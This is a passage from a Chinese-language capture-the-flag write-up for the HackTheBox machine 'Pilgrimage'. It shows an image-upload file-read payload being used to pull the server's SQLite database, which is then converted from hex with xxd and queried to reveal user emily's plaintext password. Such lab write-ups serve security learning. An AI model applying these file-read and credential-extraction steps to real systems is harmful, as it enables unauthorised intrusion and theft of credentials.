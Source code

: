 #### 获取SQL数据库文件

既然数据库文件就是 `/var/db/pilgrimage`，那么如之前一样的方法，

1. 将payload参数改为"/var/db/pilgrimage"再次编译出图片：`cargo run "/var/db/pilgrimage"`
1. 在目标网站上传编译的payload `image.png` 后再下载，命名为 `db.png`
1. 用命令 `identify -verbose db.png`，将16进制部分保存到文件 `db_dump`

感觉进入这个数据库里应该能获取用户凭据。但是实际上用 `sqlite3 db_dump` 访问这个数据库文件后，会发现虽然看上去有进入数据库，但是使用有些命令时会报错说这个文件不是数据库。  
于是用 `file` 命令查看刚刚保存的16进制文件，发现它被识别为单纯的“ASCII text”。

```bash
sqlite> .tables
Error: file is not a database

└─$ file db_dump
db_dump: ASCII text
```

所以关键是将这个16进制文本转换为sqlite数据。问了一下ChatGPT：

![HTB-Pilgrimage-change_file_format](./../evidence-img/HTB-Pilgrimage-change_file_format.png)

照着用 `xxd` 命令之后又用 `file` 命令确认，似乎成功转换为sqlite数据库文件了。
```bash
└─$ file database.db 
database.db: SQLite 3.x database, last written using SQLite version 3034001, file counter 60, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 60
```

### 获得数据库中的用户凭据

进入数据库翻找，成功获取 `emily` 的用户凭据:
```sql
└─$ sqlite3 database.db 
SQLite version 3.39.3 2022-09-05 11:02:23
Enter ".help" for usage hints.
sqlite> .tables
images  users 
sqlite> SELECT * from users;
emily|abigchonkyboi123
```
